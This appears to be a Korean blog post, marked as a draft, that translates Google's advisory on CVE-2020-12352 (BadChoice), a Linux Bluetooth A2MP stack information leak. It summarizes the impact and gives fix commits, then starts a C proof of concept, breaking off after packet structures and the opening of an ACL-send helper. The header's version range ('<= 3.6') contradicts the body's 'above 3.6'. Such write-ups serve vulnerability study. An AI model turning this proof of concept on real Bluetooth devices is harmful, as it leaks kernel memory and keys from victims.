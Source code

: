 ```yaml
---
title: "CVE-2020-12352"
date: 2021-06-08T13:04:54+09:00
draft: true
---
```


본 문서는 구글 보안팀의 [BadChoice 공식 문서](https://github.com/google/security-research/security/advisories/GHSA-7mh3-gq28-gfrq)를 번역하며 재구성한 글입니다.

## Abstract
```
CVE: CVE-2020-12352
Severity: Medium
Platform: Linux Kernel <= 3.6
Attack Type: Stack-Based Information Leak
```
본 글에서 다룰 취약점은 BleedingTooth 취약점 중 BadChoice 공격에 대한 내용으로 `CVE-2020-12352`번을 부여받은 취약점이다. 리눅스 커널 3.6 버전 이상에서 적용되며, [47f2d97d3881 커밋](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/net/bluetooth/a2mp.c?id=47f2d97d38816aaca94c9b6961c6eff1cfcd0bd6)에서 발생해서 [8e2a0d92c56e 커밋](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/net/bluetooth/a2mp.c?id=8e2a0d92c56ec6955526a8b60838c9b00f70540d)에 수정되었다. 취약점이 발생한 위치는 `net/bluetooth/a2mp.c` 파일이다.

공격자는 피해자의 bd 주소만 알고 있어도 스택 데이터를 탐색할 수 있다. 이는 KASLR을 우회하기 위한 다양한 포인터 정보를 습득할 수도 있고, 암호화 키와 같이 다른 중요한 정보가 포함될 수도 있다. 

## Proof Of Concept
### poc.c
```c++
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <bluetooth/bluetooth.h>
#include <bluetooth/l2cap.h>
#include <bluetooth/hci.h>
#include <bluetooth/hci_lib.h>

#define AMP_MGR_CID 0x03

typedef struct {
	uint8_t  code;
	uint8_t  ident;
	uint16_t len;
} __attribute__ ((packed)) amp_mgr_hdr;
#define AMP_MGR_HDR_SIZE 4

#define AMP_INFO_REQ 0x06
typedef struct {
	uint8_t id;
} __attribute__ ((packed)) amp_info_req_parms;

typedef struct {
	uint8_t  mode;
	uint8_t  txwin_size;
	uint8_t  max_transmit;
	uint16_t retrans_timeout;
	uint16_t monitor_timeout;
	uint16_t max_pdu_size;
} __attribute__ ((packed)) l2cap_conf_rfc;

int hci_send_acl_data(int hci_socket, uint16_t hci_handle, void *data, uint16_t data_length) {
```